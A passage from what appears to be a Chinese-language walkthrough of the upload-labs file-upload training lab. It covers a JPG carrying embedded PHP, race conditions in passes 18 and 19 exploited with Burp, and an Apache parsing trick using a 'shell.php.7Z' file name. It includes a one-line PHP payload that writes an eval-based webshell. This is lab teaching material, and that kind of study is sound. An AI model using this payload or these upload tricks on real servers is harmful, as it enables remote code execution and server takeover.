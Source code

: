 使用脚本处理 1.jpg,命令 php jpg_payload.php 1.jpg

使用 16 进制编辑器打开,就可以看到插入的 php 代码.将生成的 payload_1.jpg 上传.

## Pass-18-条件竞争

这一关是条件竞争的问题,这里先将文件上传到服务器,然后通过 rename 修改名称,再通过 unlink 删除文件,因此可以通过条件竞争的方式在 unlink 之前,访问 webshell.这里可以使用 burp 去发包,可以把文件内容改成下面这样

`<?php fputs(fopen('shell.php','w'),'<?php eval($_POST[cmd]?>');?>`

反正就是为了写文件进去就对了

两个 burp 跑一跑,就会在该文件夹下面产生新的文件了

## Pass-19-条件竞争

同样的也是一个条件竞争的问题,看一下源代码可以发现这里使用类去实现相关方法,包括查看文件后缀名,大小等等

这里面的问题存在于代码将上传文件更改名字的时候给了个时间差,让我们可以去实现这个竞争效果,同样的方法

**另一种方法**

上传名字为 `shell.php.7Z` 的文件,快速重复提交该数据包,会提示文件已经被上传,但没有被重命名.

这时在上一级目录中会存在 `shell.php.7Z` 文件,利用 Apache 解析漏洞可以直接作为 php 文件访问

![image](../../../../assets/img/安全/实验/Misc/upload-labs/19.png)

![image](../../../../assets/img/安全/实验/Misc/upload-labs/20.png)
